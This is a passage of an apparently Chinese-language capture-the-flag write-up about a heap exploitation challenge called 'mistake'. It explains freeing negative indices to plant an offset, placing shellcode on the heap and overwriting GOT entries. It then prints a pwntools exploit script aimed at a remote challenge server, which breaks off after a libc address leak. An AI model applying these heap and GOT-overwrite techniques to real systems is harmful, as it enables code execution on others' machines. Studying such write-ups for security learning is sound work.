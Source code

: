 这里也是通过该num 不过这次不是通过double free 而是通过free 一定的负下标

预先在num下面设置好的负数位移到上面的num 下次malloc的时候就可以让got

表的地址填上我们的堆地址 

需要用到shellcode 不能改got  ，跳转到got表后就会执行got表地址所处的命令

接着进行复写got 

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ec25f41a6d006471.png)

看距list的下标是负几 不停的free 就会将写好的负数位移到num那里 再次

Mallco时 list+num处 会填写我申请到的地址

第一步 要申请到bss段 num下面的地址 在里面填上一个合适的负数

此时也可以往堆写入 预先写好的shellcode

接下里思路清晰就可以构造exp了

下面附上代码



```
from pwn import *
local = 0
slog = 0
debug = 0
if slog:context.log_level = 'debug'
context(arch='amd64')
if local and debug:
        p = process("./mistake", env=`{`"LD_PRELOAD" : "/mnt/hgfs/share/tool/libc-database/db/libc6_2.19-0ubuntu6.11_amd64.so"`}`)
else:
        p = remote('115.28.185.220',22222)#115.28.185.220 22222
libc = ELF('/mnt/hgfs/share/tool/libc-database/db/libc6_2.19-0ubuntu6.11_amd64.so')
def malloc(content):
    p.recvuntil('&gt; ')
    p.sendline('1')
    p.recvuntil('content: ')
    p.sendline(content)
def free(id):
    p.sendline('3')
    p.sendline(str(id))
def read(addr):
    p.sendline('2')
    p.recvuntil('id: ')
    addr = (addr-0x6020a0)/8
    addr = 0x100000000+addr
    p.sendline(str(addr))
def num(number):
    max = 0xffffffff
    return max + number + 1
free_got = 0x602018
chunk_49 =0x602220
list = 0x6020A0
ptr_got = 0x601f00
chunk_number = 0x0602080
one_offset = 0xe9f2d    
def pwn():
    #leak libc and one_gadget address 
    read(ptr_got)
    p.recv(32)
    write_addr = u64(p.recv(8))
    libc.address = write_addr - libc.symbols['write']
```